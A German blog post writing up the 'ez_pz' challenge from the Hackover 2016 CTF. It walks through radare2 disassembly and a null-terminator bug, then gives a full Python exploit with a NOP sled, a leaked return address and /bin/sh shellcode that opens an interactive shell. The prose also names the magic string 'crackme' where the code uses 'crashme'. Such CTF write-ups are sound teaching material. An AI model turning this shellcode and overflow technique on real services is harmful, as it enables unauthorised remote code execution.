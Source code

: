 ```yaml
---
title:  "Hackover 2016"
date:   2017-05-01T13:13:13+01:00
draft: false
toc: false
---
```


Eigentlich wollte ich diesen Artikel schon Ende Oktober 2016 runterschreiben,
kam aber leider noch nicht dazu. Naja, besser spät als nie. Letzten Oktober war
ich auf dem [Hackover](https://hackover.de/) in Hannover. Dieses Mal wurde da
ein phänomenales CTF vom CTF-Team des [Hamburger
CCC](https://www.hamburg.ccc.de/) veranstaltet. Eine der Challenges möchte ich
euch nicht vorenthalten. Da der Server, der das CTF gehandled hat bereits
abgeschaltet worden ist, muss man etwas improvisieren. Am besten dazu eignet
sich eine VM mit GNU/Linux (vorzugsweise Arch Linux natürlich). Dann kann man
die Binary nämlich getrost lokal ausführen mit der folgenden Zeile:

`socat TCP-LISTEN:6666,bind=localhost,reuseaddr,fork EXEC:./ez_pz`

Ob alles geklappt hat kann man mit `gnu-netcat` überprüfen:

![gnu-netcat in action](/img/ez_pz_1.png)

Da wir einen Login-Dialog bekommen hat alles geklappt. Wir sehen etwas
ASCII-Art, ein paar Sprüche und eine Frage:"What's your Name?".
Was aber noch viel wichtiger ist, ist die Speicheraddresse die wir da
sehen (gemeint ist der Hex-String). Diese Adresse wird noch sehr
hilfreich werden. Wenn wir das ganze etwas durchprobieren merken wir,
dass sich diese Adresse immer wieder ändert. Vermutlich ist das unsere
Rücksprungsadresse. Also die Addresse zu der wir später springen müssen
um die Challenge zu beenden. Ok werfen wir einen Blick auf die binary
mit einem meiner Lieblingstools `radare2`:

![radare2 in action](/img/ez_pz_2.png)

Was wir hier sehen ist die `main`-function. Interessant für uns ist hier
allerdings nur der Aufruf: `call sym.chall`. `sym.header` beherbergt
anscheinend nur die Ausgabe des Headers. Diesen Part können wir also
getrost ignorieren. Schauen wir uns also mal `sym.chall` an:

![radare2 in action2](/img/ez_pz_3.png)

Was sofort ins Auge fällt ist folgende Zeile die nicht ins Gesamtbild
passt:

`0x080486b0      6853880408     push str.crashme ; str.crashme ; "crashme" @ 0x8048853`

Anscheinend ist dies unser Magic-String den wir treffen müssen um in die
Funktion `sym.vuln` zu springen. Ansonsten landen wir nur bei dem `nop`
in `0x080486df`. Gut schauen wir uns mal diese `sym.vuln` an. Der Name
ist ja bereits so verräterisch:

![radare2 in action3](/img/ez_pz_4.png)

Anscheinend handled die Application den Null-Terminator falsch. Heißt
wir können eine Eingabe machen, diese mit dem Null-Byte terminieren und
dann weiterschreiben. Alles was wir weiterschreiben wird anscheinend
direkt in den Speicher geschrieben. Anhand dieses Wissens können wir nun
einen exploit komponieren, der alle Voraussetzungen erfüllt und uns dann
eine Shell poppt. Alles was wir machen müssen ist unseren Magic-String
`crackme` zu senden, dann einen Null-Terminator, dann eine `NOP`-Sled in
die wir hereinspringen können, dann die Addresse aus dem Header mit der
wir dann wiederum zu dem Shellcode springen können der gleich hinter
einer weiteren `NOP`-sled liegt.

Das Ergebnis sieht dann mit `Python` zum Beispiel so aus:

```python
#!/usr/bin/env python2
#-*- coding: utf-8 -*-

import sys
import struct
import time
import re
import binascii
import telnetlib


t = telnetlib.Telnet("127.0.0.1", 6666)
data=""

regex = re.compile("0x[0-9a-f]{8}")

data = t.read_very_eager()
print(data)
match = regex.findall(str(data))
tmp = match[0].lstrip("0x").rstrip("\n\0")
rip = binascii.unhexlify(tmp)
print("Matched Address: ", match[0])
rip = struct.unpack(">I", rip)[0]
print("Our RIP: ", hex(rip))


shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
payload="crashme"            # magic-string zum crashen der application
payload+="\x00"              # Null-Terminator
payload+="\x90" * 18         # 1. Nop-sled
payload+=struct.pack("<I", rip)
payload+="\x90" * 200        # 2. Nop-sled
payload+=shellcode


t.write(payload + "\n")
while True:
  data = t.read_very_eager()
  print(data)
  input = raw_input("CMD> ")
  t.write(input + "\n")

t.close()
```

Zum Schluss muss man nur noch den richtigen Server und port eintragen
und schon poppt eine Shell auf. Voila!
